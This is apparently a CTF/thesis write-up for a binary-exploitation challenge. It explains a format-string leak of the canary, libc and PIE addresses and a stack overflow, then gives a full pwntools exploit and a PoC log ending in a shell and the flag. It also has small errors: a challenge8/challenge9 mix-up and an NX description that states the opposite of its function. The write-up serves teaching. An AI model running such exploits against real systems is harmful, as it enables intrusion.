




# [__Challenge8__](#)

## Description: 

* Simple format string example. Leak `Canary`, `libc address` and `PIE` address via `format string` and perform a `one_gadget` attack.

## Objective: 

* format string, one_gadget.

## Flag:
* `FLAG{0n3_g4dg3t_2_g4dg3t5_thr33_g4dg3t5}`

## Challenge:

 ⚠️ ***This challenge is the same as before, the only thing htat changes is the `read()` input size. The screenshots are the same as the previous challenge.*** ⚠️

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

It looks like `challenge1`.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ✅       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

All protections are `enabled`, so we cannot suspect anything yet about the vulnerability.

The interface of the program looks like this:



The challenge is pretty self-explanatory, telling us to use "%p" to leak addresses on the stack and then perform a `ret2libc` attack with the overflow.

What we need to know-find:

* `Overflow offset` -> can be found with our `find_boffset()`
* `Canary` value -> can be found with `format string`
* `PIE`  -> can be found with `format string`
* `libc` -> can be found with `format string`

### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  banner();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00100c20);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  long lVar1;
  undefined8 *puVar2;
  long in_FS_OFFSET;
  undefined local_158 [64];
  undefined8 local_118 [33];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  lVar1 = 0x20;
  puVar2 = local_118;
  while (lVar1 != 0) {
    lVar1 = lVar1 + -1;
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  printf("\n[*] Use the \'%%p\' format specifier to leak addresses on the stack.");
  printf("\n[*] Find a \'libc address\', a \'PIE address\' and \'Canary\'.");
  printf(
        "\n[*] Overflow the buffer and SFP, place the correct \'Canary\' value and overwrite the\'Return address\' to perform a \'one_gadget\' attack."
        );
  printf("\n\n[*] Format string bug:\n> ");
  read(0,local_118,0xff);
  printf((char *)local_118);
  printf("\n[*] Overflow:\n> ");
  read(0,local_158,0x15e);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

⚠️ ***The difference here is at `read(0, local_158, 0x15e)*** ⚠️  

Both bugs are visible here:
* `Format string`: `printf((char *)local_118);`
* `Overflow`: `read(0,local_158,0x15e);`

More about format string can be found [here](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

From the `man 3` page of `printf`:

```console
SYNOPSIS
#include <stdio.h>

int printf(const char *format, ...);


p      The void * pointer argument is printed in hexadecimal (as if by %#x or %#lx).
```

Means that if `printf` takes as format the `%p` specifier, it will print the void pointer of the argument. When it does not have an address to print, it will go to print addresses from the stack. This way, we can leak many things. I have created a function that will print potential `libc`, `PIE` addresses and `Canary` valus.

```python
def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1
```

We know that:
* `libc` addresses start with `0x7f`
* `PIE` addresses start with `0x5`
* `Canary` is a 8 byte value ending with `00`.

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328


[*] Possible LIBC address:
Index: 1 -> 0x7ffeb04f1330

[*] Possible LIBC address:
Index: 3 -> 0x7f0fdebe8151

[*] Possible LIBC address:
Index: 7 -> 0x7f0fdf0f4710

[*] Possible LIBC address:
Index: 10 -> 0x7f0fdf0f4a98

[*] Possible LIBC address:
Index: 11 -> 0x7ffeb04f1458

[*] Possible LIBC address:
Index: 12 -> 0x7ffeb04f1490

[*] Possible LIBC address:
Index: 13 -> 0x7f0fdf0f4710

[*] Possible PIE address:
Index: 46 -> 0x557bad1a1c28

[*] Possible Canary:
Index: 47 -> 0x57af316cd05a8100
```

We see that our function gave us some results. From them, we are going to calculate the addresses we want.

### Debugging 🐞

Inside `gdb`:

### Libc 📚




We calculated that the leaked address has the offset of `0x110151` from `libc base`. So, we now have libc base. 

### PIE 🥧

In order to calculate `PIE`, we leak the address and subtract the last byte and bit, because the rest of the `PIE` was similar to base.





### Canary 🐦

`Canary` is just leaked as it is.

```python
# Leak libc, PIE and canary
r.sendlineafter(prompt, "%3$p %46$p %47$p")
libc_addr, pie_addr, canary = r.recvline().split()

# Calculate libc base from leaked function
libc.address = int(libc_addr, 16) - 0x110151
e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
canary = int(canary, 16)
print(colored("[+] Libc base @ " + str(hex(libc.address))))
print(colored("[+] PIE base  @ " + str(hex(e.address))))
print(colored("[+] Canary    @ " + str(hex(canary))))
```

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/challenge8'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge8'
[*] '/home/w3th4nds/github/Thesis/challenge8/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 328
[+] Libc base @ 0x7f6c67f43000
[+] PIE base  @ 0x55a32e8a1000
[+] Canary    @ 0x180dce4f11982c00
```

Now that we have everything we need, we just perform a `one_gadget` attack.
### **One gadget** 💎

[one_gadget](https://github.com/david942j/one_gadget) is actually an offset to `execve("/bin/sh")`. After we have leaked `libc base`, we can just add these offsets to it and spawn shell.

```console
➜  challenge9 git:(main) ✗ one_gadget ./challenge/libc.so.6 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Some restrictions should be satisfied first, luckily the first one is.

Final payload looks like this:
```python
payload = junk + canary + stack_alignment + one_gadget
```

⚠️ ***We did not need to leak a PIE address for `one_gadget`***

```python
def one_gadget(r, offset, canary):
  og = [0x4f3d5, 0x4f432, 0x10a41c]
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef)
  payload += p64(og[0] + libc.address)
  r.sendlineafter(">", payload)
  r.interactive()
```

There is PoC for the `ret2libc` attack that does not work and the successful `one_gadget` attack.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge9" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A")
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.5)
    
    # If the exit code == -6 (SIGABRT)
    if r.poll() == -6:
      if i%8==0:
        print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i), "green"))
        r.close()
        return i
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()
  exit()

def ret2libc(r, prompt, offset, canary):
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0] + e.address
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef) # alignment value
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1)
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()

def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1

def one_gadget(r, offset, canary):
  og = [0x4f3d5, 0x4f432, 0x10a41c]
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef)
  payload += p64(og[0] + libc.address)
  r.sendlineafter(">", payload)
  r.interactive()

def pwn():
  # Find the overflow offset
  offset = 328#find_boffset(1000)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  # Uncomment to leak potential addresses
  #leaks(r)

  # Leak libc, PIE and canary
  r.sendlineafter(prompt, "%3$p %46$p %47$p")
  libc_addr, pie_addr, canary = r.recvline().split()
  
  # Calculate libc base from leaked function
  libc.address = int(libc_addr, 16) - 0x110151
  e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
  canary = int(canary, 16)
  print(colored("[+] Libc base @ " + str(hex(libc.address))))
  print(colored("[+] PIE base  @ " + str(hex(e.address))))
  print(colored("[+] Canary    @ " + str(hex(canary))))

  # Does not work because of limited payload
  # ret2libc(r, prompt, offset, canary)
  
  # For limited payload we use one gadget
  one_gadget(r, offset, canary)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/challenge9'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge9'
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0.0.0.0 on port 1337: Done
[+] Libc base @ 0x7f600fd41000
[+] PIE base  @ 0x55f3aa0d0000
[+] Canary    @ 0x1394044bf141ce00
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{0n3_g4dg3t_2_g4dg3t5_thr33_g4dg3t5}$ 
[*] Interrupted
[*] Closed connection to 0.0.0.0 port 1337
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/challenge9'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './challenge9'
[*] '/home/w3th4nds/github/Thesis/challenge9/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './challenge9': pid 17407
[+] Libc base @ 0x7f61219b6000
[+] PIE base  @ 0x55bc9837a000
[+] Canary    @ 0xc5b1b46d1ebf200
[*] Switching to interactive mode
 [*] Process './challenge9' stopped with exit code 0 (pid 17407)
[*] Got EOF while reading in interactive
```
